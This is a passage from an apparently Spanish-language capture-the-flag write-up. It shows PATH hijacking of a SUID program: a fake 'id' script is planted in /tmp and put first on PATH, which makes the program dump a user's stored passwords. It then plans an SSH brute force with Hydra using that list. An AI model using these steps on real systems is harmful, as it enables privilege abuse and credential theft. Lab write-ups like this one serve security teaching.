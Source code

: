 ```sh
# Ejecutamos ls -la en la raiz
...
dr-xr-xr-x  13 root root          0 Sep 25 16:06 sys
drwxrwxrwt   2 root root       4096 Sep 25 16:16 tmp
drwxr-xr-x  14 root root       4096 Feb 23  2022 usr
...
```

Para la creación del archivo ejecutamos lo siguiente:

```sh
echo -e '#!/bin/bash\necho "uid=33(think) gui=33(think) groups=33(think)"' > /tmp/id

# Luego le damos los permisos al archivo para sus ejecución

chmod +x /tmp/id
```

Una vez creado el lo archivo añadimos al `PATH`:

```sh
export PATH=/tmp:$PATH
```

Luego de esto, volvemos a ejecutar el comando:

```sh
/usr/sbin/pwm

# Resultado:

[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
jose0_07
jose0990
jose0986$
jose098130443
...
```

Como podemos recodar, el comando `/usr/sbin/pwm` al ejecutarlo extraía las contraseñas del archivo `.passwords`.

Ahora que ya tenemos una lista de posibles contraseñas para el usuario `think`, podemos aplicar fuerza bruta para tratar de ingresar por `SSH`.

Guardamos la lista en un archivo que se llame `credenciales.txt` y la pasamos por Hydra para verificar si podemos conectarnos:
